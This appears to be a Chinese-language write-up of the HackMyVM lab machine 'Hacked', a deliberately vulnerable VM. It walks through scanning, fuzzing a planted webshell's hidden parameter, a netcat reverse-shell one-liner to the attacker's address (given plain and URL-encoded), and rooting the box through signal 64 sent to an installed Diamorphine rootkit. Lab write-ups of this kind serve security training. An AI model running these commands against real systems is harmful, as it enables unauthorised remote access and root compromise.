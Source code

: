 ```yaml
---
{"created":"2024-12-01T18:07:21.015+08:00","tags":["HMV","rootkit","Diamorphine"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️","作者":"sml","aliases":null,"系统":"Linux","permalink":"/24-渗透/HMV/34.hacked/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/34.hacked#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/34.hacked#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/34.hacked#2.1. 端口扫描\|2.1. 端口扫描]]
	- [[24-渗透/HMV/34.hacked#2.2. 目录扫描\|2.2. 目录扫描]]
	- [[24-渗透/HMV/34.hacked#2.3. 获取参数\|2.3. 获取参数]]
- [[24-渗透/HMV/34.hacked#3. 提权\|3. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=Hacked
**作者**  sml
**难度** ⭐️⭐️⭐️⭐️️

## 2. 信息收集

### 2.1. 端口扫描
```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# fscan -h 192.168.42.185

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.42.185:22 open
192.168.42.185:80 open
```

主页
```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185/
HACKED BY h4x0r
```

### 2.2. 目录扫描
```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# dirsearch -u http://192.168.42.185/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/hmv/hacked/reports/http_192.168.42.185/__24-12-01_18-09-55.txt

Target: http://192.168.42.185/

[18:09:55] Starting:
[18:10:13] 200 -   16B  - /robots.txt
[18:10:14] 302 -   62B  - /simple-backdoor.php  ->  /
```

```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185/robots.txt
/secretnote.txt

┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185//secretnote.txt
[X] Enumeration
[X] Exploitation
[X] Privesc
[X] Maintaining Access.
 |__> Webshell installed.
 |__> Root shell created.

-h4x0r

┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# curl http://192.168.42.185//simple-backdoor.php
I modified this webshell to only execute my secret parameter.
```

**收集到的信息**
```
用户 h4x0r 
webshell    /simple-backdoor.php
执行参数 未知
```

### 2.3. 获取参数
从收集的这些信息当中猜测Webshell的参数
试了几个参数都不对。猜测可能是需要爆破才行

```bash
┌──(root㉿kali)-[/home/kali/hmv/hacked]
└─# ffuf -u http://192.168.42.185/simple-backdoor.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt |grep -v "Size: 62"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.42.185/simple-backdoor.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

secret                  [Status: 302, Size: 115, Words: 12, Lines: 2, Duration: 19ms]
```

获取到参数是 `secret` 之前有在网页试过这个参数。应该是302了导致没有显示出来
抓包的话可以看到
![Pasted image 20241201183435](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201183435.png)

弹shell
```
nc -e /bin/bash 192.168.42.39 1111
nc%20-e%20%2Fbin%2Fbash%20192.168.42.39%201111
```

```bash
[18:42:48] Welcome to pwncat 🐈!                                                              __main__.py:164
[18:46:34] received connection from 192.168.42.185:36606                                           bind.py:84
[18:46:35] 192.168.42.185:36606: registered new host w/ db                                     manager.py:957
(local) pwncat$
(remote) www-data@hacked:/var/www/html$ whoami
www-data
(remote) www-data@hacked:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@hacked:/var/www/html$
```

## 3. 提权
这靶机上gcc编译不了。找不到Ld
可以尝试从其他版本相近的靶机编译后传过来。
这里我就不尝试了

使用linpeas进行检测。也没有发现什么利用点

去看一下wp才发现原来这里存在`Rootkit`
https://github.com/m0nad/Diamorphine

```bash
kill -63 0 取消隐藏进程
lsmod 列出加载到内核中的模块
```
![Pasted image 20241201193026](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201193026.png)
可以看到确实安装了[[26-工具使用/Diamorphine使用\|Diamorphine]] 

[[26-工具使用/Diamorphine使用\|海洛因]]有一个特征
![Pasted image 20241201193108](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201193108.png)
我们发送信号64即可获取到root

```bash
(remote) www-data@hacked:/tmp$ kill -64 0
(remote) root@hacked:/tmp$ id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

```bash

(remote) root@hacked:/root$ sh flag.sh

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,
-------------------------

PWNED HOST: hacked

PWNED DATE: Sun Dec  1 06:32:33 EST 2024

WHOAMI: uid=0(root) gid=0(root) groups=0(root),33(www-data)

FLAG: HMVhackingthehacker

------------------------


remote) root@hacked:/home/h4x0r$ sh flag.sh

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,
-------------------------

PWNED HOST: hacked

PWNED DATE: Sun Dec  1 06:32:55 EST 2024

WHOAMI: uid=0(root) gid=0(root) groups=0(root),33(www-data)

FLAG: HMVimthabesthacker

------------------------

```